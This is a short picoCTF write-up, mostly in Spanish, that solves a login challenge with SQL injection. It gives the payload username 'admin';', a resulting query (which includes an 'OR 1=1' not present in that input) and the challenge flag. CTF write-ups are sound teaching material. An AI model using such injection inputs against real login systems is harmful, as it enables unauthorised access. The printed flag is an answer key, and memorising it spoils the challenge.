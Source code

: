 ## Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849

## Pistas 
The password is being filtered

## Solución
Una vez más el reto se soluciona utilizando inyección sql
```
username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';OR 1=1;' AND password='password'
```

## Bandera
picoCTF{m0R3_SQL_plz_fa983901}

## Referencias
https://www.w3schools.com/sql/sql_injection.asp